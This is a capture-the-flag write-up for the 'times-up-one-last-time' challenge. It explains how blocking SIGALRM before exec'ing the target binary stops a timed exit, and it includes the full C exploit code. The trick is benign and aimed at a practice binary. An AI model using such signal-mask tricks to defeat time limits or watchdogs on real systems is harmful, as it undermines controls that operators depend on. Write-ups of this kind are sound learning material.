 # times-up-one-last-time - Points: 500

This one was fun. Since I had already used this technique on the previous 'times-up' challenges, it applied to this one as well.

## Summary:
Since the alarm signal is used to trigger the exit condition, I created a quick C application that would block the signal, and then execve the vulnerable application. Child processes inhert from parent processes, so this causes the ALARM to never fire. 

## Exploit:
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>

main() {
  signal(SIGINT, SIG_IGN);
  signal(SIGALRM, SIG_IGN);

  sigset_t mask, oldmask;

  /* Set up the mask of signals to temporarily block. */
  sigemptyset (&mask);
  sigaddset (&mask, SIGALRM);

  /* Wait for a signal to arrive. */
  sigprocmask (SIG_BLOCK, &mask, &oldmask);

  execve("./times-up-one-last-time",NULL,NULL);
  printf("Error");
}
```

